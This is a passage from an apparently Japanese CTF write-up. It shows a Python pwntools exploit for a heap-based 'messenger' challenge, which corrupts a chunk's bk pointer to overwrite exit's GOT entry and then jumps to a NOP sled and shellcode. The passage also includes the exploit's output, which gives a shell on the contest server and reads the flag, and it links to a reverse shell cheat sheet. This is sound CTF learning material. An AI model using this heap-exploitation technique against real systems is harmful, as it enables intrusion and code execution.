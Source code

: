 ```python
# 0x603010:	0x0000000000000000	0x0000000000000031 <- 1st chunk size
# 0x603020:	0x0000000000603048	0x0000000000603000 <- fd, bk
# 0x603030:	0x0000000041414141	0x0000000000000000
# 0x603040:	0x0000000000000000	0x00000000000003d0 <- 2nd chunk size
# 0x603050:	0x0000000000000000	0x0000000000603018 <- fd, bk
# 0x603060:	0x0000000000000000	0x0000000000000000

# resize 1st message and overwite 2nd chunk's bk
payload = ''
payload += 'A' * 0x18
payload += p64(0x3d0)               # size
payload += p64(0)                   # fd
payload += p64(addr_exit_got - 8)   # bk
change_message(0, len(payload), payload)

# add 2nd message
leave_message(4, 'AAAA')

# remove 2nd message
# now, addr_exit_got was overwitten to 3rd chunk's addr
remove_message(1)

# send shellcode
payload = ''
payload += '\x90' * 0x100
payload += shellcode
change_message(0, len(payload), payload)

# select undefined action to call exit()
choose_action('Z')

r.interactive()
```

    $ ./exploit.py
    [+] Opening connection to 110.10.212.137 on port 3333: Done
    [*] Switching to interactive mode
    $ ls
    flag
    messenger
    $ cat flag
    1_wan3_y0ur_m3ssenger$%
    $ 
    [*] Closed connection to 110.10.212.137 port 3333


## おわり

解くのは楽しかったけど, 過去問に似た正答者数の多く得点がどんどん下がっていった問題しか解けてないので厳しい...

### 参考URL

- [Reverse Shell Cheat Sheet | pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [katagaitai CTF勉強会 #1 pwnables編 - DEFCON CTF 2014 pwn1 heap / katagaitai CTF #1 // Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-1)


[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.